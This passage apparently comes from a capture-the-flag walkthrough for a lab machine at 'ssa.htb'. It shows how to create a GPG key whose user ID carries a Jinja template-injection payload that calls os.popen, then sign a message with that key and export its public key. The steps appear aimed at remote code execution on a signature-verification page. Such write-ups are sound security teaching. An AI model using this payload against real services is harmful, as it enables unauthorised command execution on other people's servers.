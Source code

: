    ```
   Change (N)ame, (E)mail, or (O)kay/(Q)uit? o                     
   We need to generate a lot of random bytes. It is a good idea to perform
   some other action (type on the keyboard, move the mouse, utilize the 
   disks) during the prime generation; this gives the random number
   generator a better chance to gain enough entropy.               
   We need to generate a lot of random bytes. It is a good idea to perform
   some other action (type on the keyboard, move the mouse, utilize the 
   disks) during the prime generation; this gives the random number
   generator a better chance to gain enough entropy.               
   gpg: key D84D2379F42639E4 marked as ultimately trusted          
   gpg: revocation certificate stored as '/home/oxdf/.gnupg/openpgp-revocs.d/042AC4F000212519441CF636D84D2379F42639E4.rev'
   public and secret key created and signed.                       
                                                                          
   pub   rsa3072 2023-11-14 [SC] [expires: 2025-11-13]             
         042AC4F000212519441CF636D84D2379F42639E4                  
   uid                      {{ namespace.__init__.__globals__.os.popen('id').read() }} <rce-id@ssa.htb>
   sub   rsa3072 2023-11-14 [E] [expires: 2025-11-13] 

   ```
2. Sign any message with `gpg --clearsign` giving the new user with `--localuser` to get the signed message.

   ```

   oxdf@hacky$ gpg --clearsign -o- --local-user rce-id@ssa.htb test.msg                                 
   -----BEGIN PGP SIGNED MESSAGE-----                              
   Hash: SHA512                                                    
                                                                          
   this is a test message for the SSA
   -----BEGIN PGP SIGNATURE-----
                                                                          
   iQHDBAEBCgAtFiEEBCrE8AAhJRlEHPY22E0jefQmOeQFAmVTtXkPHHJjZS1pZEBz
   c2EuaHRiAAoJENhNI3n0Jjnkd18MALrbVvuzRBBA5qj/CBuscVBG8MVOqNeInwqj
   2r5B1rDEwetLcf0hLUS4L4Uzyegi3CcxMsV2HBsmi1QMrTH3UpiJwe9P9o/Rfgem
   B3/hUnmBJlSqxJZXNU1+kX7FRIuCFzAy9sPDY6kUmhW24wF8nYjkpZsW7Srg9VQi
   T5o7a0/nKlFgv6EVOYTD0oOs9AoWW/8Qjik2NkfiWo8WloGgcWp4syCL67loF4Mw
   3UZAK4pCI0YiN2m8OoeViNBHVbyViDFrtkbTY4X+H/kYULO2k/EPZj6A84TNO9WI
   PjMCGvQqXqki8QCH76rSnQUG/g80rZlCKICOD+KHzLBHT1Iswhu5vbUKFT4l7zMV
   ON+oqSssSPnimr2jJH4AwLToYcZ3mfOaXWVhMAD1dT1QnfbuyExNt46HtQKIv3km
   ysBroe/r7WQIgFA5XunmehALY4mL0J+LrwpOA+sWPaOTtiVGZitWjBbbVynhTPlk
   9hIzwJIqIqNkavwfi/Va7CsRtvz15g==
   =YVMd
   -----END PGP SIGNATURE-----

   ```
3. Dump that user’s public key with `gpg --export -a`:

   ```

   oxdf@hacky$ gpg --export -a rce-id@ssa.htb                                                           
   -----BEGIN PGP PUBLIC KEY BLOCK-----
      
   mQGNBGVTtWcBDADe5P7mf3s4D1IbSQZsRznlmq85HbhDErAFaJUs6lfsG/t5CE2L
   VBDX9O7PdINq6/AtaeXM3Q6sRqXyQpbRJQG+OFv8et/nmnu++Du1JuKIEsYPrqU5
   TTEsYhPpSMh/hgT/kzyg+t4FQYmEZyQKXz6gc0/xMejG/mrydf2fytRGvXSoV7z0
   DLs84eQeeUeUM4bwOMp7qXRIuxxgqa43eQ80LUlIsg9F86NSLf6ggnd9rlCkZpfH
   0VUYWswNw0mcyyhk5StKdXcdghgaOO7svUQB2Tvtd7GnYf8Df9rf+KwvkKRTqwBN
   XJJtwFIMIry9/e5fzSCgBOV7RWcOaGYTV5AKv0OXJ1JV87Ys9SPIinxkn83qw0xd
   fdO0QF0VvW7PUx91wKzWrhbJyE9CpNF1QTA2nm+27avGAyO9l++YCuxZfckH995a
   U/7OurA4X4LMj/bLprheHUffSYK17NfVGvRB4kUIPeAHyEJ40LCX3QB0nkcRGbTp
   ```